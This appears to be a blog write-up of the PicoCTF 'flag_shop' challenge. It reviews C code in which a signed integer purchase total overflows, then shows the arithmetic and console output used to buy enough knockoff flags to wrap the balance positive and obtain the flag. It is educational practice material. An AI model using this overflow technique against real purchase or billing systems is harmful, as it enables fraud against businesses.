 ```yaml
---
title: "PicoCTF: flag_shop"
date: 2024-11-20T14:26:45-06:00
draft: false
tags:
- PicoCTF
- Integer Overflow
- Code Review
---
```



### Description
flag_shop is a challenge on PicoCTF where an integer overflow vulnerability allows for the purchase of an 1337 flag where we otherwise would have insufficient funds.

### Walkthrough
#### Functionality Testing
Connecting to the Pico server, we get a menu with several options.

```
┌──(kali㉿kali)-[/tmp]
└─$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```

We can see our account balance.

```
 Enter a menu selection
1



 Balance: 1100 
```

We can also buy flags, of which there are two options. Options 1 costs 900 each, whereas option 2, the "1337 flag", costs 100000 each.

```
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
```

```
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
```

We are asked to buy a flag, presumably the 1337 flags, so let's get started.


#### Code Review
The first thing that caught my eye was the usage the unsecure ```scanf()```. ```scanf()``` takes data from 
standard input and stores it to the address of a variable. However, it does not set a limit on the size of user input, meaning
 it is vulnerable to overflow. For this challenge, I did not need to exploit ```scanf()```, but it is still a vulnerability worth 
 keeping in mind.

We also see that the ```store.c``` uses an integer to store the total cost of the flags in 
```total_cost```, meaning it can be interpreted as positive or negative. ```total_cost``` is derived by multiplying the cost of flag 1 
(900) with the number of flags our user wants to buy, so the number of flags we buy could flip the most significant bit of ```total_cost``` to 1, 
turning it into a negative number.

```C
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
                }   
            }
```


#### Exploitation
In two's complement, the most significant bit, or leftmost digit determines whether a number is positive (0) or negative (1). 
When our total cost ends up being greater than the maximum positive integer, the cost becomes negative if the most significant bit is 1.
Since the price of a flag is 900, we can overflow our cost by buying ```maximum_integer/price_per_flag``` flags. Of course, this value needs to be
rounded up (or +1 if the quotient is a whole number).

```
┌──(kali㉿kali)-[/tmp]
└─$ python3
Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import math
>>> math.ceil(2147483647/900)
2386093
>>> 2147483647/900
2386092.941111111
>>> 
```

However, when I tried to buy 2386093 flags, I am thrown deep into debt!

```
These knockoff Flags cost 900 each, enter desired quantity
2386093

The final cost is: -2147483596

Your current balance after transaction: -2147482600
```

Let us figure out why this is happening. I've provided a script below to find the binary representation of an integer.

```C
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>


void getBin(int);

int main(int argc, char* argv[]) 
{
        if (argc != 2)
        {
                printf("Usage: %s <num>", argv[0]);
                exit(1);
        }

        getBin(atoi(argv[1]));

        return 0;
}

void getBin(int num)
{
        char bin[33];
        unsigned short index = 0;
        bin[index] = (num >> 31 & 1) + 48;

        for (int i = 1 << 30; i > 0; i >>= 1)
        {
                index++;
                num & i ? (bin[index] = '1') : (bin[index] = '0');
        }

        bin[32] = '\0';

        printf("Number: %d\n", num);
        printf("Binary: %s\n", bin);

        return;
}
```

Calculating our expense, we get a positive number.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 0-2386093*900  ))
Number: 2147483596
Binary: 01111111111111111111111111001100
```

However, we start with 1100 in our balance, not 0. If we recalculate our balance with that accounted for, we get a negative number.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 1100-2386093*900  ))
Number: -2147482600
Binary: 10000000000000000000010000011000
```

The easiest way to fix our debacle would be to add 1100/900 when calculating the number of flags we need to buy since 
we will need to overflow an additional 1100 for flags that cost 900 each. 

```
>>> math.ceil(2147483647/900+1100/900)
2386095
```

And now we have a large, positive amount of money after the transaction...

```
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

...and buy the 1337 flag.

```
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_<redacted>}
Welcome to the flag exchange
We sell flags
```